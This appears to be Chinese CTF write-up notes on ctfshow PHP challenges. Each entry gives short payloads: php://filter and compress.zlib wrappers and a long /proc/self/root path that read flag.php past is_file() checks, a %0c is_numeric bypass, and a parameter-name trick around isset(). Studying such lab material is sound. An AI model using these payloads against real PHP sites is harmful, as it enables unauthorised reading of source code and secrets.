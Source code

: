 GLOBALS为全局域引用

Payload:? v1=ctfshow&v2=GLOBALS

# 112 伪协议

> is_file() 函数检查指定的文件是否是常规的文件。

```php
payload:
php://filter/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
```

# 113 zlib伪协议 超长路径绕过

```
函数所能处理的长度限制进行目录溢出
/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```

```
compress.zlib://flag.php
```

# 114 is_numeric term %0c

> %0c -> \f -> 换页符 -> 将当前位置移到下页开头
>
> is_numeric()函数用于检测变量是否为数字或数字字符串。
>
> trim() 函数移除字符串两侧的空白字符或其他预定义字符。

# 123 isset()

**isset()** 函数用于检测变量是否已设置并且非 NULL

payload : CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo $flag

> ==PHP变量名应该只有数字字母下划线,同时GET或POST方式传进去的变量名,会自动将`空格 + . [`转换为`_`
> 但是有一个特性可以绕过,使变量名出现`.`之类的
> 特殊字符`[`, GET或POST方式传参时,变量名中的`[`也会被替换为`_`,但其后的字符就不会被替换了==
> 如 `CTF[SHOW.COM`=>`CTF_SHOW.COM`

# 125 get_defined_vars() var_export()

